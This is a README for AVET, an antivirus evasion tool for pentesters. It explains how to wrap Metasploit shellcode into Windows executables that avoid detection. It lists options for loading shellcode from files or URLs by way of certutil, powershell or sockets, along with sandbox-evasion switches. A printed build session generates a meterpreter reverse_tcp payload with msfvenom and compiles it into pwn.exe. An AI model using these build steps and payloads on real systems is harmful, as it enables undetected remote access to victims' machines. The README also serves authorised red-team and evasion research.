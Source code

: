 AntiVirus Evasion Tool
======================

Please note that this project has PoC status!
---------------------------------------------

AVET is an AntiVirus Evasion Tool, which was developed for making life easier for pentesters and for experimenting with antivirus evasion techniques, this version is for OSX.

For basics about antivirus evasion, AVET & more information have a look here: 
- https://govolution.wordpress.com/2018/08/07/paper-avet-blackhat-usa-arsenal-2018/
- https://govolution.wordpress.com/2017/06/11/avet-video/
- https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf
- https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf
- https://twitter.com/DanielX4v3r

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines with executable files
- assembly shellcodes can be used
- make_avet can be used for configuring the sourcecode
- with make_avet you can load ASCII encoded shellcodes from a textfile or from a webserver, further it is using an av evasion technique to avoid sandboxing and emulation
- call msf ASCII encoded shellcode as a parameter from cmd
- for ASCII encoding the shellcode the tool format.sh and sh_format are included

Installation
- this version was developed for running on OSX with metasploit and gcc installed
- install python3
	https://www.python.org/downloads/mac-osx/
- install gnureadline
	pip3 install gnureadline

Important Note
--------------
Not all techniques will evade every AV engine. If one technique or build script does not work please test another one.

How to use make_avet and build scripts
--------------------------------------
Compile if needed, for example if you use a 32 bit system:
```
$ gcc -o make_avet make_avet.c
```

The purpose of make_avet is to preconfigure a definition file (defs.h) so that the source code can be compiled in the next step. This way the payload will be encoded as ASCII payload or with encoders from metasploit. You hardly can beat shikata-ga-nai.

Let's have a look at the options from make_avet, examples will be given below:
```
-l load and exec shellcode from given file, call is with mytrojan.exe myshellcode.bin
   when called with -E call with mytrojan.exe shellcode.txt
-f compile shellcode into .exe, needs filename of shellcode file
-u load and exec shellcode from url using internet explorer (url is compiled into executable)
-d download the shellcode file using different techniques
   -d sock -> for downloading a raw shellcode via http in memory and exec (no overhead, use socket)
      usage example: pwn.exe http://yourserver/yourpayload.bin
   -d certutil -> use certutil.exe for downloading the file
   -d powershell -> use powershell for downloading the file
      usage of -d certutil/powershell in combination with -f
      for executing the raw shellcode after downloading
      call: pwn thepayload.bin http://server/thepayload.bin
-E use avets ASCII encryption, often do not has to be used
   Can be used with -l
-F use fopen sandbox evasion
-k "killswitch" sandbox evasion with gethostbyname
-X compile for 64 bit
-p print debug information
-q quiet mode (hide console window)
-h help
```

Of course it is possible to run all commands step by step from command line. But it is strongly recommended to use build scripts or the avet_fabric.py.

The build scripts themselves are written so as they have to be called from within the avet directory:
```
root@kalidan:~/tools/avet# ./build/build_win32_meterpreter_rev_https_20xshikata.sh
```

Examples
--------
Here are the commented examples for building the .exe files from the build directory. 

```

```

avet_fabric.py
--------------
avet_fabric is an assistant, that loads all build scripts in the build directory (name has to be build*.sh) and then lets the user edit the settings line by line. This is under huge development.

Example:
```
# python3 avet_fabric.py 

                       .|        ,       +
             *         | |      ((             *
                       |'|       `    ._____
         +     ___    |  |   *        |.   |' .---"|
       _    .-'   '-. |  |     .--'|  ||   | _|    |
    .-'|  _.|  |    ||   '-__  |   |  |    ||      |
    |' | |.    |    ||       | |   |  |    ||      |
 ___|  '-'     '    ""       '-'   '-.'    '`      |____
jgs~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

AVET Fabric by Daniel Sauder

avet_fabric.py is an assistant for building exe files with shellcode payloads for targeted attacks and antivirus evasion.

0: build_win32_meterpreter_rev_https_shikata_loadfile.sh
1: build_win32_meterpreter_rev_https_shikata_fopen.sh
2: build_win32_meterpreter_rev_https_shikata_load_ie_debug.sh
3: build_win32_shell_rev_tcp_shikata_fopen_kaspersky.sh
4: build_win32_meterpreter_rev_https_20xshikata.sh
5: build_win32_meterpreter_rev_https_shikata_load_ie.sh
6: build_win64_meterpreter_rev_tcp.sh
...
Input number of the script you want use and hit enter: 6

Now you can edit the build script line by line.

simple example script for building the .exe file
$ . build/global_win64.sh
make meterpreter reverse payload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
format the shellcode for make_avet
$ ./format.sh sc.txt > scclean.txt && rm sc.txt
call make_avet, compile
$ ./make_avet -f scclean.txt -X -E
$ $win64_compiler -o pwn.exe avet.c
cleanup
$ rm scclean.txt && echo "" > defs.h

The following commands will be executed:
#/bin/bash
. build/global_win64.sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
./format.sh sc.txt > scclean.txt && rm sc.txt
./make_avet -f scclean.txt -X -E
$win64_compiler -o pwn.exe avet.c
rm scclean.txt && echo "" > defs.h

Press enter to continue.

Building the output file...

Please stand by...

The output file should be placed in the current directory.

Bye...
```


Comparison of Antivirus Evasion tools:
http://dione.lib.unipi.gr/xmlui/bitstream/handle/unipi/11232/Kalogranis_mte1512.pdf
